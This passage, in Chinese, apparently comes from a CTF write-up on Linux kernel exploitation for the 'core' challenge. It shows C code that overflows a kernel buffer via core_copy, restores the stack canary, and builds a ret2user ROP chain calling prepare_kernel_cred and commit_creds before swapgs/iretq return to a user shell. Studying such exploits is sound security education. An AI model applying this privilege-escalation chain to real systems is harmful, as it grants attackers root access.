     ```c
    	write(fd, rop, 0x100 * 8);				// core_wrte
    	core_copy(0xffffffffffff0000 | 0x100);
    ```

* 利用代码（Ret2user）

  * 只有Ropchain上的差异，不需要构造获取root权限的ROP，而直接执行UserLand代码

    ```c
    
    void get_root()
    {
    	char* (*pkc)(int) = prepare_kernel_cred;
        void (*ccs)(char*) = commit_creds;
        (*ccs)((*pkc)(0));
        //puts("[*] root now.");			// kernel can't address the string
        return ;
    }
    
    	rop[8] = cookie;					// set canary
    	rop[i++] = (size_t)get_root;		// get root pri
    
    	rop[i++] = swapgs_pop_ret;					// swapgs; 
    	rop[i++] = 0;
    	rop[i++] = iretq_ret;
    	rop[i++] = (size_t)get_shell;
    	rop[i++] = user_cs;
    	rop[i++] = user_rflags;
    	rop[i++] = user_sp;
    	rop[i++] = user_ss;
    
    ```

    

